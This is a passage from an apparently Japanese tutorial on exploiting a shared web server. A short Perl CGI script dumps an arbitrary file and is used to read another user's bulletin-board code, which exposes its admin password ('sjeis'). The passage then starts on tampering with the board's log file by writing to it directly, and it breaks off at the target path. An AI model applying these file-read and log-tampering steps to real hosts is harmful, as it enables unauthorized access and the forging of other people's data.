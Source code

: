 print "Content-Type: text/plain\x0d\x0a\x0d\x0a";

open(FILE, $file);
print while (<FILE>);
close(FILE);

----8<----8<----8<-- cut - cut --8<----8<----8<----8<

  これは$fileに指定したファイルの内容を全て表示させるものです。

  以下は結果。

```
\#!/usr/local/bin/perl



\#?!??????????????????????????????????????????????????????????????????

\#?  LI*HT B*ARD v5.6 (2002/01/06) (伏字)

\#?  Copyright(c) K*NT W*B 2002 (伏字)

\#?  E-MAIL: ******************(伏字)

\#?  WWW: ****************(伏字)

\#????????????????????????????????????????????????????????????????????

（長いので略）

\# ?C???O?p?}?X?^?p?X???[?h(”??p‰p?”??)

$pass = 'sjeis';

（以下略）
```

　文字化けしましたが読めました。w0tIdはmp123と同じグループのユーザーです。
ですから、755とグループからの読み込み許可が出ているので読めて当然です。
  管理パスワードは sjeis ですね。取りあえず掲示板の管理人室へ入れるように
なりました（他人のパスワードを不正に使用したら犯罪です）。

  もう少し試してみましょう。


●logファイル改竄

  BBSのlogファイルを改竄してみましょう。
  logファイルとは、掲示板に書き込んだ内容が保存されているファイルです。

　BBSから書き込むのではなくて、自分のホームディレクトリに置いたスクリプト
から、logファイルに直接書き込みます。
  logファイルの位置は、

/usr/home/web/m/mp123/cgi-bin/kaiem.log
